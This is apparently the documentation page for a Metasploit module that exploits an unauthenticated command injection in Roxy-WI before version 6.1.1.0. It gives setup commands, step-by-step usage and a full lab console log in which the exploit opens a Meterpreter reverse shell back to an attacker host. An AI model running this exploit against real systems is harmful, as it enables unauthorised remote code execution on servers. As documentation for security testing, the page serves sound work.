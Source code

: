 ## Vulnerable Application

This module exploits an unauthenticated command injection vulnerability in Roxy-WI prior to version 6.1.1.0.
Successful exploitation results in remote code execution under the context of the web server user.

### Setup

Roxy-WI requires Python and a web server to run. Please visit following url to find out required python and other packages.

https://roxy-wi.org/installation.py#manual

```
git clone https://github.com/hap-wi/roxy-wi.git /var/www/haproxy-wi
chmod +x haproxy-wi/app/*.py 
sudo ./haproxy-wi/app/create_db.py
chown -R www-data:www-data haproxy-wi
```

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/roxy_wi_exec`
4. Set `RHOST` to the address of the target Roxy-WI machine.
5. Set `LHOST` to the address of your attacking machine.
8. Run `exploit`
9. Do: `run`
10. You should get a shell as the user running the Roxy-WI server.

## Targets

### 0

This executes a Unix command.

### 1

This uses a Linux dropper to execute code.

## Options

### TARGETURI

Set `TARGETURI` if the Roxy-WI is installed at a custom path.

## Scenarios

### Roxy-WI 6.1.1.0 Ubuntu 20.04 GNU/Linux (x86_64)

```
Apache/2.4.52 
MySQL 8.0.29
Python 3.10.4
```

```
msf6 > use exploit/linux/http/roxy_wi_exec
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/roxy_wi_exec) > set RHOST 192.168.56.116
RHOST => 192.168.56.116
msf6 exploit(linux/http/roxy_wi_exec) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf6 exploit(linux/http/roxy_wi_exec) > set RPORT 443
RPORT => 443
msf6 exploit(linux/http/roxy_wi_exec) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. The device responded to exploitation with a 200 OK and test command successfully executed.
[*] Executing Automatic for cmd/unix/python/meterpreter/reverse_tcp
[*] Sending stage (40168 bytes) to 192.168.56.116
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.116:56156) at 2022-07-25 18:49:54 +0300

meterpreter > 
```
